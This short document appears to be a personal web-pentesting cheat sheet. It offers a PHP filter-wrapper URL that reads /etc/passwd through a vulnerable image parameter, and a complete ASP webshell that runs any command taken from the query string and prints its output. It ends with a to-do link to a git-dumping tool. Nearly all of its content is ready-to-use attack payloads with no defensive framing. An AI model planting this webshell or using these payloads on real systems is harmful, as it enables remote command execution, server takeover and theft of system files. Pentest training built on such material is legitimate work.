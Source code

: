 ```yaml
---
title: Web Pentest
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Web, Web Pentest]
pin: true
comments: false
---
```


# Web
Read PHP Code with PHP Filter :
```http
https://X.X.X.X/image.php?img=php://filter/convert.base64-encode/resource=/etc/passwd
```
## Webshell
ASP : 
```aspx
<%
Response.write("<pre>")
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c " & Request.QueryString("cmd"))
o = cmd.StdOut.Readall()
Response.write(o)
Response.write("</pre>")
%>
```

TODO :
https://github.com/internetwache/GitTools
